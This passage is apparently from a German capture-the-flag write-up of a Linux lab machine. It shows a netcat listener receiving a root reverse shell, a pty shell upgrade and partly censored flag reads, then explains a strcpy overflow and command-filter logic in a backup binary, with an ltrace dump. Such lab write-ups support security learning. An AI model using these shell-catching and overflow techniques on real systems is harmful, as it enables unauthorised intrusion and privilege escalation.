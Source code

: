 ```shell
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.52] from (UNKNOWN) [10.10.10.58] 55838
whoami
root
python -c "import pty; pty.spawn('/bin/bash')"
root@node:/usr/local/bin# cat /root/root.txt
172#########ZENSIERT#########be0
root@node:/usr/local/bin# cat /home/tom/user.txt
e11#########ZENSIERT#########1b1
## 3\. Buffer Overflow
```

Es wird mehrmals **strcpy** aufgerufen, allerdings wird nicht die Begrenzung überprüft. In der **displayTarget** Funktion tritt dann ein **overflow** und ein **segfault** auf. Damit dies passiert müssen folgende 3 Kriterien erfüllt werden.

1.  Das 1\. muss ungleich **-q** sein, damit das Programm nicht im quiet mode gestartet wird.
2.  Das 2\. Argument muss einen gültigen Key enthalten
3.  Das 3\. Argument enthält einen 508 characters langen String.

```shell
) = nil strchr("arg3", '|') = nil strstr("arg3", "//") = nil strcmp("arg3", "/") = 1 strstr("arg3", "/etc") = nil strcpy(0xffb1c24b, "arg3") = 0xffb1c24b getpid() = 6034 time(0) = 1520597049 clock(0, 0, 0, 0) = 7799 srand(0x4885486b, 0xc864d874, 0x4885486b, 0x804918c) = 0 rand(0, 0, 0, 0) = 0xb41e2b0 sprintf("/tmp/.backup_188867248", "/tmp/.backup_%i", 188867248) = 22 sprintf("/usr/bin/zip -r -P magicword /tmp/.backup_188867248 arg3 > /dev/null", "/usr/bin/zip -r -P magicword %s %s > /dev/null", "/tmp/.backup_188867248", "arg3") = 65 system("/usr/bin/zip -r -P magicword /tmp/.backup_188867248 arg3 > /dev/null" <no return ...> --- SIGCHLD (Child exited) --- <... system resumed> ) = 3072 access("/tmp/.backup_188867248", 0) = -1 remove("/tmp/.backup_188867248") = -1 fclose(0x9881160) = 0 +++ exited (status 0) +++
```

Das 3. Argument gibt also an, von welchem Verzeichnis ( oder welcher Datei ) eine Zip Datei erstellt werden soll. Dafür wird der Befehl **system()** benutzt. Außerdem wird das 3. Argument mit **.. /root ; & ` $ | //** und **/etc** verglichen. Wenn das 3. Argument einen dieser Strings enthält, bekommen wir eine Zip Datei, welche nur ein Trollface enthält.

Vielen Dank für's durchlesen. :)